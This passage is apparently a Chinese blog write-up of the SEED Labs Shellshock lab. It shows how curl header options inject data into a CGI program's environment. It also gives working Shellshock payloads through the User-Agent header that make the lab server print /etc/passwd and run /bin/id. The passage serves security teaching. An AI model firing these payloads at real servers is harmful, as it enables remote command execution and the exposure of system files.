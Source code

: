 1. `-v`字段可以打印出HTTP请求的头；
2. `-A`、`-e`和`-H`选项可以设置头请求中的一些字段，您需要找出每个文件设置的文件。

请在实验室报告中包括你的发现。以下是关于如何使用这些字段的示例：

```bash
$ curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
$ curl -A "my data" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
$ curl -e "my data" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
$ curl -H "AAAAAA: BBBBBB" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```



![image-20220614214711913](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220113551-1625090100.png)

![image-20220614214743921](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220113887-184463180.png)

![image-20220614214927923](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220114171-1627326498.png)

![image-20220614215006280](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220114557-1541409114.png)

基于此实验，请描述哪些curl选项可以用来将数据注入到目标CGI程序的环境变量中。

- -A：设置用户代理（User-Agent）；
- -e：设置 HTTP 的Referer，防盗链；
- -H：添加任意的 HTTP 请求头。

## 任务3：启动Shellshock攻击

我们现在可以发动Shellshock攻击。攻击并不依赖于CGI程序中的内容，因为它的目标是bash程序，该程序  在执行实际的CGI脚本之前被调用。您的工作是通过URL http://www.seedlab-shellshock.com/cgi-bin/vul.cgi，所以您可以让服务器运行一个任意的命令。

如果您的命令有一个纯文本输出，并且您希望该输出返回给您，那么您的输出需要遵循一个协议：它应该从内容开始  Content type: text/plain，后面是一个空行，然后您可以放置纯文本输出。例如，如果您希望服务器返回其文件夹中的文件列表，则您的命令如下所示：

```bash
echo Content_type: text/plain; echo; /bin/ls -l
```

在此任务中，请使用三种不同的方法(即，三个不同的HTTP报头字段)来启动对目标CGI程序的Shellshock攻击。您需要实现以下目标。对于每个目标，您只需要使用一种方法，但是总共需要使用三种不同的方法。

- 任务3.A: 让服务器重新发送/etc/passwd文件的内容。

```bash
curl -A "() { : ;}; echo ; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![image-20220614212852153](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220111856-429738167.png)

- 任务3.B：让服务器告诉您其进程的用户ID。您可以使用/bin/id命令来打印出ID信息。

```bash
curl -A "() { : ;}; echo ; /bin/id " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![image-20220614213157398](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220112094-1741174479.png)
